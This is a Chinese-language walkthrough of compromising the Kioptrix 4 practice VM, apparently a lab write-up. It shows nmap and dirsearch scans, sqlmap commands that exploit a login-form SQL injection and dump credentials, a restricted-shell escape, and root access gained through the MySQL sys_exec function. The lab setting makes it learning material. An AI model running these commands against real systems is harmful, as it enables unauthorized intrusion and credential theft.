# 一、信息收集

1. 主机发现，如下，192.168.0.105为靶机
   
   ```shell
   nmap -sN 192.168.0.1/24
   ```
   
    

2. 端口扫描，如下，开放了22、80、135、445端口，80端口有web服务，中间件为Apache httpd 2.2.8，系统Ubuntu，web语言为PHP 5.2.4，smb允许guest登录，且发现一个域名Kioptrix4.localdomain
   
   ```shell
   nmap -sV -sC -T4 192.168.0.105
   ```
   
    

3. 修改host解析，将靶机ip指向Kioptrix4.localdomain，访问该域名，界面如下
    

4. 扫描web信息
    

5. 扫描web目录，如下，发现有checklogin.php、database.sql
   
   ```shell
   dirsearch -u http://Kioptrix4.localdomain -i 200,301
   ```
   
    

6. 访问database.sql，发现账号密码，数据库名为members，但测试后发现无法登录后台，不是网站的账号密码
    

7. 扫描主机漏洞，没有发现什么漏洞
   
   ```shell
   nmap --script=vuln 192.168.0.105
   ```

8. 测试一下登录框，发现密码加单引号报错，报错回显了网站绝对路径/var/www/checklogin.php
    

# 二、getshell

1. 抓包保存为txt文件，使用sqlmap 测试注入，发现为root权限
   
   ```shell
   sqlmap -r 1.txt --level=3 --batch --current-user
   ```
   
    

2. 获取数据库名，库名为members
   
   ```shell
   sqlmap -r 1.txt --level=3 --batch --dbs
   ```
   
     

3. 获取表名，表名为members
   
   ```shell
   sqlmap -r 1.txt --level=3 --batch -D members --tables
   ```
   
    

4. 获取字段名，字段名为id、username、password
   
   ```shell
   sqlmap -r 1.txt --level=3 --batch -D members -T members --columns
   ```
   
    

5. 获取数据
   
   ```shell
   sqlmap -r 1.txt --level=3 --batch -D members -T members -C 'username,password' --dump
   ```
   
    

6. 两个账号登录进去都没有功能
    

7. 使用上面获取到的用户登录ssh，成功获取到shell
    

# 三、权限提升

1. 上面获取的shell受限，能执行的命令非常有限，尝试sqlmap写入webshell也失败了
   
   ```shell
   echo $SHELL
   ```

2. 由于是受限的shell，可以使用以下命令直接绕过
   
   ```shell
   echo os.system('/bin/bash')
   ```
   
     

3. john用户没有sudo权限，无法suid提权，使用内核提权失败，此时想到mysql有root权限，可以长mysql提权，先查看checklogin.php文件中是否存在mysql的root密码，如下,root密码为空
        

4. shell中root登录mysql，如下，登录成功
    

5. 查看mysql.func，发现存在sys_exec，可以利用该函数执行系统命令
    

6. 利用sys_exec函数将john用户添加到管理员组
   
   ```SQL
   select sys_exec('usermod -a -G admin john');
   ```
   
    

7. 退出mysql，sudo su，输入john用户的密码，成功获取root权限
    